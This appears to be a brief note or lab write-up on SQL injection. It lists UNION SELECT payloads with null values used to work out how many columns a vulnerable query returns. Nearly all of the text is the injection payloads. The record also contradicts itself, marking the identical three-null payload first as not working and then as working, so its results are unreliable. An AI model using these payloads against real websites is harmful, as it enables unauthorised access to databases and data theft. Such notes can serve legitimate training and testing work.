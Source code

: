 #sqli 

UNION query with null values and try to find the right number of columns.

```sql
anything' UNION SELECT null-- a 
```
-> Not working

```sql
anything' UNION SELECT null, null, null -- a 
```
-> Not working
…

```sql
anything' UNION SELECT null, null, null -- a 
```
-> Working